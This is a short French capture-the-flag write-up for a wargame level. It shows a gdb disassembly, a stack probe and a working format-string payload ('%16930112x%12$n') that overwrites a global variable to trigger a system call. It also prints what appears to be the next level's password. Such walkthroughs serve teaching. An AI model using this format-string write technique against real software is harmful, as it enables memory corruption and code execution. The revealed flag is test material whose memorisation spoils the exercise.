 # Level 4

Ce niveau est très similaire au niveau précédent cependant ici la fonction system fait un `cat` du pass du level5 directement.

En examinant l'asm cette fois-ci `m` doit contenir la valeur `0x1025544` soit `16930116` en décimal mais `fgets` ne prend que `512` charactères.

Mais avec `printf` peut crée un padding de charactère sans pour autant dépassé `512` charactères.

```sh
~ gdb level4
(gdb) disas main
Dump of assembler code for function main:
[...]
   0x080484ad <+6>:	call   0x8048457 <n>
[...]
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
[...]
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave
   0x080484a6 <+79>:	ret
End of assembler dump.
~ ./level4
BBBB %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
BBBB b7ff26b0 bffff654 b7fd0ff4 0 0 bffff618 804848d bffff410 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520
~ python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"' > /tmp/level4
~ cat /tmp/level4 | ./level4
[...]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

